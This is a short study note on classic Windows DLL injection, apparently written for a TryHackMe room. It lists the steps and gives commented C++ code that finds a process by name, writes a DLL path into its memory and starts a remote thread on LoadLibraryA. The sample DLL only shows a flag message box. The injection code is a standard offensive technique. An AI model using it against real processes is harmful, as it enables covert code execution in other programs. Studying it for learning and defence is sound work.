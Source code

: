 # DLL Injection
Similar to [[Reflective-DLL-Injection]] but the loaded on disk. More information on DLL avalible here: [[Dynamic-Link-Libraries]]. This technique leverages the [[Windows-API]]'s `LoadLibrary`([Documentation](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)) to load a DLL from disk.


DLL Injection Steps:

1.  Locate a target process to inject.
2.  Open the target process.
3.  Allocate memory region for malicious DLL.
4.  Write the malicious DLL to allocated memory.
5.  Load and execute the malicious DLL.

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID

HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);

LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);

WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#define EXPORTING_DLL

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    MessageBox(NULL, TEXT("THM{}"), TEXT("flag"), MB_OK);
    return TRUE;
}
```


## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)
